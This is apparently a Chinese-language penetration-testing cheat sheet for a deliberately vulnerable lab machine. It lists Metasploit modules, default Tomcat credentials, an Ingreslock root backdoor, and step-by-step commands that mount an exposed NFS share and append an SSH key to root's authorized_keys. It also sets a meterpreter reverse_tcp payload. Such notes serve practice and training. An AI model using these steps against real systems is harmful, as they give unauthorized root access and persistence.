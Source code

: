 # Kali Linux #
## Ingreslock后门漏洞 ##
**Port**: 1524  
telnet直接获取Root权限
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```
## Metasploit溢出vsftp特权提升漏洞 ##
**Port:** 21
## Metasploit溢出UnrealIRCd后门漏洞 ##
**Port:** 6667
## Tomcat管理台默认口令漏洞 ##
**Port:** 8180    
**Service:** ApacheTomcat/CoyoteJSP engine1.1   
**Default:** tomcat tomcat
## sysmlink 默认配置目录遍历漏洞 ##
**Port:** 445 139   
**Service:** Samba   
**Payload:** auxiliary/admin/smb/samba_symlink_traversal
```
set SMBSHARE tmp SAM可写文件
smbclient //ip/tmp 
cd rootfs 进入root目录
cat /*
```
## Metasploit利用php_cgi漏洞 ##
**Dir:** cgi-bin   
**Exploit:** exploit/multi/php_cgi_arg_injection   
**Payload:**   
```
set PAYLOAD /php/meterpreter/reverse_tcp
```
## Distcc后门漏洞 ##
**Port:** 3632   
**Exploit:** use exploit/unix/misc/distcc_exec   
